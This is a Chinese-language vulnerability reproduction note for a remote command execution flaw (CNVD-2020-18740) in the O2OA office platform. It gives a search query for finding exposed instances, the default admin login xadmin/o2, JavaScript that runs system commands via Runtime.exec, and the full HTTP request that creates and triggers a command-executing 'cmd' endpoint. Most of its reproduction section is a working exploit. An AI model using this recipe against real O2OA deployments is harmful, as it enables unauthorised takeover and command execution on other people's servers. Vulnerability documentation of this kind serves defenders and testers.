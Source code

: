 # 

# O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

```
O2OA
```

## 网络测绘

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20220829102732087](./images/202208291027154.png)

默认密码登录后台 `xadmin/o2`

![image-20220829102745518](./images/202208291027581.png)

在应用中找到服务管理，创建接口代码执行系统命令

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![image-20220829102805328](./images/202208291028397.png)

请求包

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![image-20220829102821768](./images/202208291028838.png)

创建成功后访问接口执行系统命令

```
/x_program_center/jaxrs/invoke/cmd/execute
```

![image-20220829102832557](./images/202208291028615.png)
